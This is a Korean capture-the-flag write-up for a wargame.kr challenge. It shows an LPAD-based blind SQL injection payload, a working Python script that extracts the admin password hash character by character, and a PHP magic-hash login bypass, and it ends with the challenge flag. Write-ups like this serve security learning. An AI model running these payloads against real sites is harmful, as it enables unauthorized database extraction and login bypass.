 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-00-50-23.png)

# **Write-Up**

javascript alert로 swp파일이 힌트라고 한다.

![](images/2022-01-03-00-50-45.png)

.index.php.swp을 받아서 열어보면 no에 GET method로 넘겨받아 custom_firewall 함수를 통해 필터링한 뒤 쿼리를 한다. 여기가 SQLi 포인트로 생각하면 될것 같다.

![](images/2022-01-03-00-50-51.png)

no에 GET method로 넘겨줄때마다 뭣같은 alert가 귀찮게 한다. javascript를 꺼버리자.

![](images/2022-01-03-00-50-55.png)

우선 ?no=1로 하였을 땐, Comma라는 아이디가 나왔다.

![](images/2022-01-03-00-51-01.png)

union select, sleep 쿼리가 모두 필터링되는 듯 하다.

![](images/2022-01-03-00-51-04.png)

ID/PW를 guest/guest로 입력하고 Submit버튼을 눌렀을 때, 데이터가 나오고 해쉬의 형태로 보인다.

![](images/2022-01-03-00-51-08.png)

haval128,5라는 해쉬 알고리즘인가보다.

![](images/2022-01-03-00-51-12.png)

LPAD function을 이용한 쿼리를 날려본다.

query : ?no=-1 || LPAD(pw,1,'')="0"

* no가 0(admin), 1(Comma), 2(Cd80), 3(Orang)이면 or 다음에 나오는 쿼리가 참인지 상관없이 참이기 때문에 0~3을 벗어난 값을 주었다.

* LPAD의 첫번째 인자를 pw로 어떻게 알았냐면, guessing인 것 같다...(타 라업 참고하였음...)

![](images/2022-01-03-00-52-54.png)

값을 다르게 줘보면 false || false여서 아무것도 안뜬다.

query : ?no=-1 || LPAD(pw,1,'')="a"

![](images/2022-01-03-00-53-03.png)

바로 BlindSQLi Python Script짜고 결과를 확인한다.

```python
import urllib
import urllib.request
import string

url         = 'http://wargame.kr:8080/jff3_magic/?no=-1'
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
ascii_set   = string.ascii_lowercase+string.digits
hash_pw     = ''
for i in range(32):
    print(i)
    for a in ascii_set:
        payload     = urllib.parse.quote(' || LPAD(pw, {}, \'\')="{}"'.format(i + 1, hash_pw + a))
        request     = urllib.request.Request(url+payload, headers = headers)
        response    = urllib.request.urlopen(request)
        if 'admin' in response.read().decode():
            hash_pw += a
            break
print('pw ({}) = {}'.format(len(hash_pw), hash_pw))

[Output]
pw (32) = 0e531247968804642688052356464312
```

admin의 암호의 해쉬값을 보면 0e+Only 숫자이다. 게다가 해쉬 알고리즘(haval128,5)을 알고있다.

바로 Magic Hash값을 찾아서 넣으면 FLAG를 획득할 수 있다.

> [Magic Hash](https://github.com/2jinu/etc/blob/main/Magic%20Hash/Magic%20Hash.md)

# **FLAG**

**9414edf3941f29f28af761c55e5f950bb35f8262**